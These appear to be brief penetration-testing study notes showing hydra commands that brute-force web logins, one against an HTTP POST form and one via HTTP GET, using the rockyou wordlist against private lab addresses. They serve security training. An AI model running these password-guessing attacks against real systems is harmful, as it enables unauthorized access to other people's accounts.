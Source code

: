 HTP POST FORM

![[6719e356fc317843132b680f58d8ce62-pwa_http_intercept2.png]]
sudo hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"

HTTP -GET

sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt -f 192.168.221.20